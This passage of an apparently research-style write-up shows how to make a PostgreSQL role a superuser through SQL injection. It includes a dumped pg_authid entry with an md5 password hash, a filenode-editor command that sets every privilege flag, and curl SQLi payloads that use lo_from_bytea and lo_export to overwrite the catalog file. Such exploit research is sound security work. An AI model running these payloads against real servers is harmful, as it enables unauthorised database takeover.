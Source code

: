 ```console
rolinherit    : 1
rolcreaterole : 0
rolcreatedb   : 0
rolcanlogin   : 0
rolreplication: 0
rolbypassrls  : 0
rolconnlimit  : -1
rolpassword   : None
... TRUNCATED ...
--------- item no. 9 ---------
oid           : 16386
rolname       : b'poc_user\x00...'
rolsuper      : 0
rolinherit    : 1
rolcreaterole : 0
rolcreatedb   : 0
rolcanlogin   : 1
rolreplication: 0
rolbypassrls  : 0
rolconnlimit  : -1
rolpassword   : b'md58616944eb80b569f7be225c2442582cd'
```
<PRE>


---[ 3.4 - Making ourselves a superuser

We can now use the Filenode editor to update Item no. 9, which contains
the entry for "poc_user". For convenience, we can pass any non-printable
fields (such as the "rolname" field) as base64 string. We will flip all
"rol" flags to 1 with the following editor command:

</PRE>
```console
$ python3 postgresql_filenode_editor.py \
-f ./pg_authid_filenode \
-m update \
-p 0 \
-i 9 \
--datatype-csv "tableoid,oid,4,i;cmax,cid,4,i;xmax,xid,4,i;cmin,cid,4,i;xmin,xid,4,i;ctid,tid,6,s;oid,oid,4,i;rolname,name,64,c;rolsuper,bool,1,c;rolinherit,bool,1,c;rolcreaterole,bool,1,c;rolcreatedb,bool,1,c;rolcanlogin,bool,1,c;rolreplication,bool,1,c;rolbypassrls,bool,1,c;rolconnlimit,int4,4,i;rolpassword,text,-1,i;rolvaliduntil,timestamptz,8,d" \
--csv-data "16386,cG9jX3VzZXIAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA==,1,1,1,1,1,1,1,-1,md58616944eb80b569f7be225c2442582cd,NULL"
```
<PRE>


The script will save the updated Filenode to a file with ".new" as an
extension. We can now re-upload the data to the PostgreSQL server and
overwrite the original data through the SQLi.

</PRE>
```console
$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337,CAST((SELECT lo_from_bytea(3331337, decode('$(base64 -w 0 pg_authid_filenode.new)', 'base64'))) AS text)"
[
    {"id":1337,"text":"3331337"}
]

$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337,CAST((SELECT lo_export(3331337, '/var/lib/postgresql/13/main/global/1260')) AS text)"
[{"id":1337,"text":"1"}]
```